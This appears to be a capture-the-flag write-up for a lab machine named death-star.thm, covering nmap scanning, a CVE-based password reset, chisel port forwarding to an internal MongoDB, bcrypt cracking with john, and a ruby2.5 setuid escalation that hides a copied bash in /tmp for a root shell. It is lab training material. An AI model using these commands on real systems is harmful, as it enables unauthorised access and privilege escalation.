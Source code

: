 Step 1: Initial Enumeration

`nmap -A -p- -T4 10.10.20.103`

Conducted a comprehensive scan of the target using Nmap, which identified two open ports:
Port 22: SSH running OpenSSH 7.6p1.
Port 80: HTTP running Apache 2.4.29. The web service redirected to http://death-star.thm, suggesting further enumeration of subdomains was needed.


Step 2: Subdomain Discovery
Found a subdomain named force associated with the death-star.thm domain. This subdomain appeared to host a web application requiring login credentials.

Step 3: Exploiting the Web Application
Registered a new user account on the web application and used a known CVE to reset the vader account password.
Logged into the application as vader and accessed its backend. From there, obtained a shell as the vader user.

Step 4: Port Forwarding to Access MongoDB

`./chisel client 10.21.78.142:8000 R:8081:172.17.0.4:8081`

Discovered that MongoDB was hosted internally on 172.17.0.4:8081. Since it was inaccessible directly, configured a tool to forward the internal port, making the service accessible remotely. This setup allowed direct interaction with the database.

Step 5: Exploiting MongoDB
Used another CVE to gain a shell on the MongoDB server. While enumerating its filesystem, located a backup file containing a bcrypt-hashed password for the vader account.

Step 6: Cracking the Password

`echo 'vader:$2a$06$g10icfFeWNjZCtE3SEbm7uIgZNnw25iz4XUh94XdqQmFYofaSi8CW' > vader.hash`

`john vader.hash --wordlist=/usr/share/wordlists/rockyou.txt `

Saved the bcrypt hash to a file and used a password-cracking tool with the RockYou wordlist. After a short period, successfully cracked the password and retrieved jediknight as the credential.

Step 7: Gaining SSH Access
Used the cracked password to log into the target as the vader user.

`ssh-keygen`

Create a ssh key for vader user to connect in ssh

Explored the user’s home directory and found the user.txt flag.

Step 8: Privilege Escalation
Ran a privilege escalation script to enumerate potential weaknesses in the system. This revealed that the ruby2.5 binary had elevated permissions due to AppArmor settings.

Exploiting Ruby2.5 for Privilege Escalation:

`cd /tmp
cp /bin/bash .X0-lock
chmod +x .X0-lock
usr/bin/ruby2.5 -e 'Process::Sys.setuid(0); exec "cp --preserve=mode /tmp/.X0-lock /tmp/.X2-lock"'
./.X2-lock -p
`

Copied the bash binary to a temporary location and renamed it to create a malicious binary.
Adjusted permissions to make the malicious binary executable.
Used ruby2.5 to execute the malicious binary, preserving its elevated privileges.
Gained a root shell by executing the newly created binary.

Step 9: Root Access
Navigated to the root directory and located the root.txt flag. However, the exact flag content was not recorded in the notes.

